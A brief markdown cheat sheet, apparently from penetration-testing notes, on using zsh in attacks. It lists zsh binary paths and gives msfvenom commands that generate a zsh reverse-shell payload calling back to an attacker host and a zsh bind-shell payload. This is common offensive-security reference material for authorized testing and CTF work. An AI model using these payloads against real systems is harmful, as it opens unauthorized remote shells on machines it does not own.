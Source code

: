# Manual

## 01 - Common Files

```
/usr/bin/zsh
/bin/zsh
```

## 02 - Generate Payloads

### 2.1 - Reverse Shells

```
$ msfvenom -p cmd/unix/reverse_zsh lhost=<IP> lport=<PORT>
```

### 2.2 - Bind Shells

```
$ msfvenom -p cmd/unix/bind_zsh lport=<PORT>
```